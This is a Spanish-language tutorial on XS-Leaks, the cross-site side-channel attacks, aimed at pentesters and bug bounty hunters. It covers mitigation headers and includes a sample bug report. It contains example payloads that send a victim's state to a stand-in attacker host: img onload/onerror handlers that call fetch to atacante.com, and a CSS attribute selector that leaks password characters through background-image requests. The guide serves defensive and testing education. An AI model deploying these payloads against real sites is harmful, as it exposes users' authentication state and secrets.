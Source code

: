# XS-Leaks y Side-Channels Web 

## Resumen

XS-Leaks (Cross-Site Leaks) son una familia de ataques de canal lateral que permiten a un atacante extraer información sensible de usuarios autenticados en otros orígenes, explotando diferencias de tiempo, contenidos bloqueados, errores de red y políticas del navegador. Las XS-Leaks no ejecutan directamente código en el contexto de la víctima: obtienen bit a bit datos privados observando efectos colaterales y comportamientos sutiles del navegador (red, CSS, eventos), escapando a medidas tradicionales como SameSite, CORS y CSP.[^1]

---

## Contexto

Las XS-Leaks afectan a cualquier app web donde el atacante pueda inducir al navegador de la víctima a crear requests cross-origin, observar diferencias en la carga de recursos, respuestas HTTP, comportamiento visual (CSS), timings o eventos de error/éxito. Son relevantes en autenticación, compartición de recursos entre subdominios, protección de datos sensibles y control de acceso a APIs modernas (OAuth, GraphQL, REST).

### Principales Vectores y Superficies

- **Red (Timing):** diferencias de tiempo de carga, respuestas 404/200, tamaño de recursos.
- **Comportamiento visual:** diferencias de renderizado CSS, presencia de elementos, estilos aplicados.
- **Eventos JS:** `onload`, `onerror`, manipulación de iframes.
- **API de red:** Fetch/XHR analizando `status`, excepciones CORS.
- **Conductas browser-specific:** manejo de redirecciones, history, navegación privada.

---

## Técnicas Comunes de XS-Leaks

### 1. Redireccionamientos y Diferencias en Respuesta

**Escenario:**
Un endpoint `/profile` responde 302 si no autenticado y 200 si logueado.

**Ataque típico:**
El atacante hace que la víctima cargue:

```html
<img src="https://victima.com/profile" onload="fetch('https://atacante.com/1')" onerror="fetch('https://atacante.com/0')">
```

- Si la imagen se carga correctamente, la víctima está logueada.
- Si genera 302/404, ocurre un fallo y se informa al atacante.

---

### 2. Pixel Perfect (Resource Size/Timing Leak)

Carga elementos (imágenes, scripts, iframes) de rutas privadas, midiendo carga o tamaño.

```javascript
let img = new Image();
img.src = "https://victima.com/secret-image";
img.onload = () => report("exists");
img.onerror = () => report("not-exists");
```

---

### 3. CSS Leak

Aprovecha la capacidad de aplicar estilos sólo si el recurso existe o el usuario accede a cierto estado.

```css
input[type="password"][value^="a"] {
  background-image: url("https://atacante.com/leak?a");
}
```

- CSS obtiene leak visual si la condición se cumple; la petición revela valor.

---

### 4. Frame Counting

Explota la cantidad de redirecciones, frames anidados o history stack para inferir el estado de sesión o pasos interactivos realizados.

---

### 5. Response Timing/CSP Violation

Detecta si una respuesta es bloqueada por CSP observando los fallos de carga de scripts/iframes o midiendo el tiempo entre estado inicial y error.

---

### 6. Fetch/Redirect/CORS Leak

Utiliza fetch/XHR para detectar explícitamente diferencias de red o políticas mediante excepciones:

```javascript
fetch("https://victima.com/private")
  .then(r => r.status)
  .catch(e => report("blocked"));
```

- Si CORS lo permite, puede observar respuesta; si bloqueada, infiere estado.

---

## Ejemplo de Ataque Real

### Exfiltración de estado autenticado (CSRF/SSO Check)

1. Víctima logueada en `victima.com`
2. Atacante hace que visite:

```html
<img src="https://victima.com/api/is_admin" onload="fetch('https://atacante.com/is_admin')" onerror="fetch('https://atacante.com/not_admin')">
```

3. Según el estado, recibe ping en su servidor con bit de autenticación.

### Exfiltración de CSRF Token vía CSS Injection

Si un token se refleja en HTML, el atacante puede usar CSS selectors para extraer carácter a carácter usando múltiples requests y background-images para filtrar el valor.

---

## Automatización y Herramientas

- **XSStrike:** análisis de XSS y XS-Leaks
- **xsinject:** scripts para automating resource timing/cors/behavior
- **XS-Leaks wiki \& cheatsheet**: https://xsleaks.dev/
- **Burp Suite Extensions:** para network timing y automatización OOB

---

## Detección y Pruebas Manuales

- **Carga diferencial de recursos:** pruebas con imágenes, iframes, CSS rules monitorizadas.
- **Inspección de timings:** comparando tiempos entre load/error.
- **Manipulación de CSP y CORS:** observar cómo cambia el acceso a recursos.
- **Historial y navegación:** scripts que manipulan el DOM para contar frames o history length.

---

## Mitigación

**A nivel de app:**

- Verificar respuesta idéntica para recursos privados/públicos (códigos estándar, tamaño de respuesta).
- Implementar cabeceras antibot/anti-canal side:
  - `Cross-Origin-Resource-Policy: same-origin`
  - `Cross-Origin-Opener-Policy`, `Cross-Origin-Embedder-Policy`
  - `X-Frame-Options: DENY` para evitar ataques en frames.
- Enfocar mensajes de error genéricos (no custom para estados internos).
- Restringir Content-Type y prevenir redirecciones basadas en estado.

**A nivel de browser:**

- Uso de políticas recientes (“Fetch Metadata Request Headers”, CORP, COOP)
- Actualizar navegadores y frameworks a versiones que mitigan XS-Leaks conocidas

---

## Ejemplo de Reporte de Bug Bounty

```markdown
## XS-Leak/Side-Channel Exposure via Resource Timing
**Severity:** High
**Summary:** HTTPS://victima.com/profile endpoint leaks session state through differential responses (timing/load).
**PoC:**  
1. Atacante induce a víctima a cargar `/profile` vía `<img>`  
2. Diferente evento (`onload`, `onerror`), según autenticación del usuario
3. El atacante monitoriza solicitudes a su servidor OOB
**Mitigación:**  
- Responder idénticamente en ambos casos, incluir cabeceras CORP y COEP
- Eliminar diferencias de timing y contenido en rutas sensibles
```

---

## Consideraciones para Pentesters \& Bug Bounty

- Prueba endpoints privados con todas las variantes img, script, iframe, fetch, CSS.
- Observa diferencia de estado, tamaño, error CORS, timing y contenido para inferir información.
- Usa herramientas automatizadas para payload chains.
- Prioriza APIs con datos sensibles, endpoints SSO/OAuth, admin panels y recursos protegidos por sesión.

---

Las XS-Leaks son ataques silenciosos y difíciles de detectar pero de alto impacto real, especialmente en arquitecturas SPA y APIs modernas. Integrar pruebas anti-side-channel debe ser parte de toda estrategia defensiva y pipeline de CI/CD.

<div style="text-align: center">⁂</div>

[^1]: https://portswigger.net/web-security/access-control/idor

